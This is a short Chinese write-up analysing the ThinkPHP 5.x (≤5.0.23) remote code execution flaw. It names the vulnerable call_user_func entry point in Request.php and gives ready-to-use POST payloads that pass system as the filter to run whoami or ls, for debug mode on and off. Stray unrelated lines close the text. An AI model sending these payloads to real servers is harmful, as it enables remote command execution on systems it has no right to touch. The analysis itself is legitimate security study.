


前言
最近反序列化漏洞分析了几个，准备来换个口味， 来分析一下我觉得难度不小的ThinkPHP5.x RCE漏洞。
配置环境
在TP官网下载5.022核心版。
利用条件
5.x <= 5.0.23
利用链如下
该利用链不短，debug涉及的点也比较多，从入口点开始分析。
搜索一下call_user_func函数触发点。

入口点位于:/thinkphp/library/think/Request.php， 需要控制$filter与$value的值，才能命令执行。
POC(调试模式开启)
POST: _method=__construct&filter[]=system&get[]=whoami
或者
POST: _method=__construct&filter[]=system&route[]=whoamiPOC(调试模式未开启)
GET: s=captcha
POST: _method=__construct&method=get&filter[]=system&get[]=lsThere Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.